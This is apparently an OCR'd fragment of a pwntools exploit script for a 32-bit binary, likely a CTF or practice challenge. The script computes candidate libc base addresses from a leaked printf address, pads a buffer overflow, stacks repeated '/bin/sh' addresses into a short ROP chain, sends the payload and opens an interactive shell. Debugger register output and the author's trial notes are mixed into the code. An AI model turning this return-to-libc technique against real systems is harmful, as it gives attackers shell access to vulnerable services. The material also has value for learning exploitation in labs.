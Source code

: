 ```
pay += "BBBB"*3 # not too sure why

#   read(0, buf, 0x38u);
# 1. 0x38u = 56
# 2. 56-20-12=36-12=24 
# 3. 24 / sizeof str for 32bit = 24 / 4 = 6 addresses long ROP

plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_base = addr_printf_int - plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_offset_printf
plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_base = addr_printf_int - plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_offset_printf
plshaq_libc6_2_27_3ubuntu1_i386_base = addr_printf_int - plshaq_libc6_2_27_3ubuntu1_i386_offset_printf

print("supposed libc base 1: "+hex(plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_base))
print("supposed libc base 2: "+hex(plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_base))
print("supposed libc base 3: "+hex(plshaq_libc6_2_27_3ubuntu1_i386_base))

"""
 EAX  0x0
 EBX  0x0
 ECX  0xffffd510  0x1
 EDX  0xf7fb1890x(_IO_stdfile_1_lock)  0x0
 EDI  0x0
 ESI  0xf7fb0000 (_GLOBAL_OFFSET_TABLE_)  0x1d7d6c
 EBP  0x0
 ESP  0xffffd4fc 0xf7df0e81 (__libc_start_main+241) add    esp, 0x10
 EIP  0x5655593f (main+538)  lea esp, [ecx - 4]
"""

pay += str(p32(plshaq_libc6_2_27_3ubuntu1_i386_base+plshaq_libc6_2_27_3ubuntu1_i386_binsh8))*6
"""
binsh   return
1   -11
2   -11
3   -11 (but weird)
4   -11
5   127
6   127
7   127
8   127
"""

print("pay: ["+pay+"]")
print("pay len: "+str(len(pay)))

io.sendline(pay)
io.interactive()
```